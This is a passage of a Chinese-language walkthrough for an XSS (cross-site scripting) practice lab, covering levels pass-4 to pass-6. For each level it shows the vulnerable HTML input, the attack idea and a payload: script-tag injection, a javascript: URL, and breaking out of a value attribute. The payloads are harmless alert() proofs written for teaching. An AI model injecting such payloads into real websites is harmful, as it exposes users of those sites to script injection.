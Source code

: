 留言板，存在XSS注入点

**payload：**

```
<script>alert(/xss/)</script>
```



### pass-4

#### 考点：构造链接

```php+HTML
<input type="button" onclick="location='javascript:alert(/2333/);'" value="点击跳转">
```

#### 思路：

传入一个链接，构造一个点击事件

**payload：**

```
javascript:alert(/xss/);
```



### pass-5

#### 考点：构造闭合，再注入

```php+HTML
<input type="input" name="xss" value="">
```

#### 思路：

将value值闭合，再注入payload

**payload：**

```
"><script>alert(/xss/)</script>
```



### pass-6

#### 考点：构造闭合，再注入

```php+HTML
<input type="input" name="xss" value="" style="width: 200px" id="text">
```

#### 思路：

将value值闭合，再注入payload
